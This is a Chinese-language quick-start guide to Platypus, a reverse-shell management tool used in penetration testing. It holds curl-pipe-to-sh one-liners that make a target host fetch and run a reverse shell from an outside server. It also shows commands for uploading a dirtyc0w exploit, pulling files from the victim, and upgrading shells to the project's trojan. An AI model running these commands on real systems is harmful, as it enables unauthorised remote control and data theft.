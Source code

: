 # 快速上手

!!! Tips
    您可以在[**这里**](https://github.com/WangYihang/Platypus/releases)下载到最新的 Release 版，
    您也可以参考[**这里**](./build.md)直接从源码编译得到 Platypus 的可执行文件。

## 运行

!!! Hint
    这里假设 Platypus 运行在具有公网 IP 的服务器上，其 IP 为 1.3.3.7。

### Linux

```
./platypus_linux_amd64
```
### Windows

```
.\platypus_windows_amd64.exe
```

启动时 Platypus 将会进行一些初始化工作，并开始监听反向 Shell 端口，一切准备就绪之后，Platypus 将会以命令提示符 `» ` 来提示用户可以开始输入命令与之交互。

!!! Tips
    如果您对 Platypus 的具体启动流程感兴趣，可以参考[本文](./run.md)。

## 反弹一个反向 Shell

受到 [lukechilds](https://github.com/lukechilds) 的 [reverse-shell](https://github.com/lukechilds/reverse-shell) 项目的启发，Platypus 支持 Reverse Shell as a Serivce (RaaS)，基本语法与其相同。在 RicterZ 的[推荐](https://github.com/WangYihang/Platypus/issues/30)下，增加了一些不同语言的反向 Shell 的 Payload。

您可以直接在目标机器上执行如下命令得到一个反向 Shell，从此不用再记忆各种繁琐的反向 Shell 命令。
如果您希望了解更加高级的 RaaS 的用法，请参考[本文](./../../RaaS.md)。

```bash
curl http://1.3.3.7:13338 | sh
```

### 反弹 Shell 至当前 Platypus（`1.3.3.7:13338`）

```bash
curl http://1.3.3.7:13338 | sh
curl http://1.3.3.7:13338/python | sh
```

### 反弹 Shell 至其他平台（`2.3.3.7:4444`）

```bash
curl http://1.3.3.7:13338/2.3.3.7/4444 | sh
curl http://1.3.3.7:13338/2.3.3.7/4444/ruby | sh
```

反弹成功之后，Platypus 会对新上线的 Shell 进行基础的信息搜集（如：操作系统，用户名等），
当信息搜集结束后，即可利用 Platypus 与之进行交互。

## 与 Platypus 交互

!!! Hint
    Platypus 提供 3 种与之交互的方式。

    * [命令行](./interact/cli.md)
    * [Web 界面](./interact/web.md)
    * [Python SDK](./interact/python-sdk.md)

这里只介绍最基础的**命令行**模式的一些命令。

!!! Hint
    Platypus 对命令的大小写不敏感并且支持 Tab 自动对命令进行补全，您可以输入命令前缀然后按下 ++tab++ 键即可自动补全。

Platypus 的命令行模式支持 `Help`、`List`、`Jump`、`Download`、`Upload` 以及 `Interact` 等命令。

### Help

打印命令的帮助信息。

#### 列出所有受支持的命令

```bash
» Help
```

#### 列出 List 命令的帮助信息

```bash
» Help List
```

### List

列出当前正在监听的服务器以及每一个服务器上存活的 Shell。

```bash
» List
2021/08/11 22:46:10 Listing 2 listening servers
2021/08/11 22:46:10 [9442daedd052d7cdfebc43092a4a3050] is listening on 0.0.0.0:13337, 0 clients
2021/08/11 22:46:10 [1b7fb280df68ceebae36060c938a2ced] is listening on 0.0.0.0:13338, 0 clients
```

### Jump

!!! Tips
    Platypus 会根据配置文件中的[哈希计算模式](./hashing.md)对每一个上线的 Shell 计算哈希，该哈希会作为该 Shell 的唯一标识。

跳转到某一个 Shell 对其进行操作。

例如：

```
» Jump 1b7fb280df68ceebae36060c938a2ced
```

跳转成功后，终端的命令提示符将会修改为当前 Shell 的相关信息。
后续的命令（如：`Interact`）将会直接对当前的 Shell 进行操作。

### Interact

当跳转到某一个 Shell 之后，与之进行交互。

!!! Warning
    * 如果您直接执行 Interact 命令得到的 Shell 将会与 netcat 类似，并非纯交互式 Shell。
    * 如果您想要退出当前正在交互的 Shell，可以直接输入 `exit` 即可返回。
    * 如果您希望得到一个**像 SSH 一样好用丝滑的 Shell** 请参考[本文](./interactive.md)。

### Upload / Download

当跳转到某一个 Shell 之后，上传或下载文件。

#### 上传文件

将 Platypus 当前文件夹下的 `dirtyc0w.c` 上传至当前交互主机的 `/tmp/dirtyc0w.c`。
```bash
» Upload ./dirtyc0w.c /tmp/dirtyc0w.c
```

#### 下载文件

将当前交互主机的 `/tmp/www.tar.gz` 下载至 Platypus 当前文件夹下的 `www.tar.gz` 中。

```bash
» Download /tmp/www.tar.gz ./www.tar.gz
```


## 升级至 Termite（推荐）

当您已经获得了一个反向 Shell 之后，强烈建议您使用 `Upgrade` 命令将其升级为更稳定可靠并且提供加密机制等其他非常有用的功能的 Termite Shell。

!!! Termite
    Termite 是 Platypus 的二进制木马，提供流量加密、交互式 Shell 等功能。

当您已经使用 `Jump` 命令跳转到目标 Shell 之后，您可以使用 `Upgrade 1.3.3.7:13337` 来将当前的明文 Shell 提升为更加可靠的 Termite，稍等片刻，您将会看到一个带有 `[Encrypted]` 标记的 Shell 上线。

Termite 提供了多种有用功能，如：

* 完全交互式 Shell（使用就像 SSH 一样丝滑），并且可以多人同时启动多个 Shell 而互不影响。
* 4 种不同的[隧道](./tunnel.md)功能
* 更加稳定可靠的文件操作

与 Termite 交互的逻辑与通常的反向 Shell 一致，即：`Jump` 然后 `Interact`。
